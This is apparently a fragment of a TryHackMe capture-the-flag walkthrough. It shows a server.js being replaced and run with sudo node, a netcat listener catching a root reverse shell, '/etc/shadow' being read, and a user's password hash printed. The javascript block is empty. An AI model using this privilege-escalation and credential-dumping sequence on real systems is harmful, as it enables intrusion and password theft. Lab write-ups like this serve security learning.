 ```js
```

```
para@ubuntu:~$ cp server.js server.js.old
para@ubuntu:~$ rm -r server.js
para@ubuntu:~$ nano server.js
para@ubuntu:~$ sudo /usr/bin/node /home/para/server.js

```

```
kali@kali:~/CTFs/tryhackme/GraphQL$ nc -lnvp 9002
Listening on 0.0.0.0 9002
Connection received on 10.10.236.40 40028
Connected!
id
uid=0(root) gid=0(root) groups=0(root)
cat /etc/shadow | grep para
para:$1$CHyLRSmg$QAvdWTC70dsIHuM5KmTf20:18535:0:99999:7:::
```

`$1$CHyLRSmg$QAvdWTC70dsIHuM5KmTf20`
